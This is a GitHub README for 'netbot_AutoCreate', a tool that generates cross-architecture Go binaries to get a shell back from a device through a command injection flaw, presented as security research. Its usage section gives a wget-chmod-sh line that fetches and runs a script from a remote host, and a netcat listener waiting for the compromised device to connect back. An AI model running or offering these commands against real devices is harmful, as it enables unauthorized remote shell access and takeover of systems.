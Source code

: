 # netbot_AutoCreate

## Introduction

During the research on a certain device, it was found that there were no tools such as ssh or telnet in the device, and the command injection vulnerability was not revealed, so I came up with a way to use the botnet to return a simple shell tool.

Automatically generate and compile binary files of various systems and architectures based on golang, and minimize them during compilation.

Automatically generate script files

## Usage

python3 netbot_AutoCreate.py

![1700192580078](image/readMe/1700192580078.png)

Generate a file named fileName.OS.ARCH in the “bins” directory.

![1700192071034](image/readMe/1700192071034.png)

Use wget or curl to download the sh file in command execution.

> wget http://192.168.1.171:8000/test.sh;chmod +x test.sh;sh test.sh

Then start `netcat` and wait for the device to connect actively.

> nc -lvvp 9999

---
